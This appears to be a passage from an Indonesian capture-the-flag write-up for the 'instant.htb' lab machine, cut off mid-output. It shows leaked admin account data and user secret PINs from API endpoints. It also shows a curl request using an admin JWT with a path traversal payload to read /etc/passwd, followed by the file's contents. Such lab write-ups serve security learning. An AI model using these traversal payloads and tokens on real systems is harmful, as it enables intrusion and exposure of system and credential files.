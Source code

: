```
{"Profile":{"account_status":"active","email":"admin@instant.htb","invite_token":"instant_admin_inv","role":"Admin","username":"instantAdmin","wallet_balance":"10000000","wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"},"Status":200}
```
dapat Data Admin
![[Pasted image 20250110230302.png]]
![[Pasted image 20250110230236.png]]
### Akses swagger-ui.instant.htb
![[Pasted image 20250111140824.png]]
bisa login 
mencoba menganalisa dan mengakses semua API endpoint
1. /api/v1/admin/list/users
```
{
  "Status": 200,
  "Users": [
    {
      "email": "admin@instant.htb",
      "role": "Admin",
      "secret_pin": 87348,
      "status": "active",
      "username": "instantAdmin",
      "wallet_id": "f0eca6e5-783a-471d-9d8f-0162cbc900db"
    },
    {
      "email": "shirohige@instant.htb",
      "role": "instantian",
      "secret_pin": 42845,
      "status": "active",
      "username": "shirohige",
      "wallet_id": "458715c9-b15e-467b-8a3d-97bc3fcf3c11"
    }
  ]
}
```
2. ​/api​/v1​/admin​/read​/log -> dengan payload "../../../etc/passwd"
```
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

---

{
  "/home/shirohige/logs//../../../../etc/passwd": [
    "root:x:0:0:root:/root:/bin/bash\n",
    "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n",
    "bin:x:2:2:bin:/bin:/usr/sbin/nologin\n",
    "sys:x:3:3:sys:/dev:/usr/sbin/nologin\n",
    "sync:x:4:65534:sync:/bin:/bin/sync\n",
    "games:x:5:60:games:/usr/games:/usr/sbin/nologin\n",
    "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n",
    "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n",
    "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n",
    "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n",
    "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n",
    "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n",
    "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n",
    "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n",
    "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n",
```